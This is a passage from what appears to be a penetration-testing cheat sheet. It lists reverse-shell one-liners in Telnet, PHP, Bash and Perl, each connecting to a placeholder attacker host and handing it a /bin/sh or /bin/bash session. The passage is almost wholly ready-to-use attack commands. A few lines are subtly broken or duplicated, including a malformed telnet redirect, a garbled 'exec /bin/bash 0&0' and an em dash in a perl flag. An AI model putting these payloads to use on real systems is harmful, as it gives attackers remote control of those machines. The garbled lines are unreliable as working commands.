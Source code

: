 #### **Telnet Reverse Shell:** <a href="#toc475369001" id="toc475369001"></a>

* ```
  rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
  ```
* ```
  telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
  ```

#### **PHP:** <a href="#toc475369002" id="toc475369002"></a>

* ```
  php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
  ```
  * (Assumes TCP uses file descriptor 3. If it doesn’t work, try 4,5, or 6)

#### **Bash:** <a href="#toc475369003" id="toc475369003"></a>

* ```
  exec /bin/bash 0&0 2>&0
  ```
* ```
  0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
  ```
* ```
  exec 5<>/dev/tcp/ATTACKING-IP/80 cat <&5 | while read line; do $line 2>&5 >&5; done
  ```

\# or: while read line 0<&5; do $line 2>&5 >&5; done

* ```
  bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
  ```

#### **Perl:** <a href="#toc475369004" id="toc475369004"></a>

* ```
  exec "/bin/sh";
  ```
* ```
  perl —e 'exec "/bin/sh";'
  ```
* ```
  perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```
* ```
  perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;' 
  ```
  * Windows
* ```
  perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```
  * &#x20;Windows
